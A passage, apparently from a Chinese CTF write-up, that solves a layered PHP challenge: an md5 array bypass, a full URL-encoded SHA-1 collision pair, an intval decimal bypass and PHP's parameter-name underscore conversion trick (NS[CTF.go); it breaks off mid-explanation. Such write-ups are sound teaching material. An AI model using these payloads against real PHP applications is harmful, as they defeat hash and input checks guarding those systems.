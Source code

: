 md5绕过，我们可以使用数组绕过：

```
a[]=1&b[]=2
```



第二层

```php
if((string)$_POST['c'] != (string)$_POST['d'] && sha1($_POST['c']) === sha1($_POST['d']))
```

这里需要使用sha1强碰撞绕过：

```php
c=%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01%7FF%DC%93%A6%B6%7E%01%3B%02%9A%AA%1D%B2V%0BE%CAg%D6%88%C7%F8K%8CLy%1F%E0%2B%3D%F6%14%F8m%B1i%09%01%C5kE%C1S%0A%FE%DF%B7%608%E9rr/%E7%ADr%8F%0EI%04%E0F%C20W%0F%E9%D4%13%98%AB%E1.%F5%BC%94%2B%E35B%A4%80-%98%B5%D7%0F%2A3.%C3%7F%AC5%14%E7M%DC%0F%2C%C1%A8t%CD%0Cx0Z%21Vda0%97%89%60k%D0%BF%3F%98%CD%A8%04F%29%A1&d=%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01sF%DC%91f%B6%7E%11%8F%02%9A%B6%21%B2V%0F%F9%CAg%CC%A8%C7%F8%5B%A8Ly%03%0C%2B%3D%E2%18%F8m%B3%A9%09%01%D5%DFE%C1O%26%FE%DF%B3%DC8%E9j%C2/%E7%BDr%8F%0EE%BC%E0F%D2%3CW%0F%EB%14%13%98%BBU.%F5%A0%A8%2B%E31%FE%A4%807%B8%B5%D7%1F%0E3.%DF%93%AC5%00%EBM%DC%0D%EC%C1%A8dy%0Cx%2Cv%21V%60%DD0%97%91%D0k%D0%AF%3F%98%CD%A4%BCF%29%B1
```



第三层：

```php
if($_GET['e'] != 114514 && intval($_GET['e']) == 114514)
```

`intval()`函数 用于获取变量的整数值，如果我们传入一个小数，会被转化为整数，但是php小数与整数又不相等，所以我们可以使用小数绕过

```
e=114514.1
```



第四层：

```php
if(isset($_GET['NS_CTF.go']))
```

php中如果参数中出现非法字符，会被替换为下滑线`_`，如果出现`[`，也会被替换为下划线`_`，但是这将导致后面的非法字符不被转换（php<8）

[php非法参数转换](https://blog.csdn.net/mochu7777777/article/details/115050295)

例如：我们传入

```
?NS[CTF.go
```
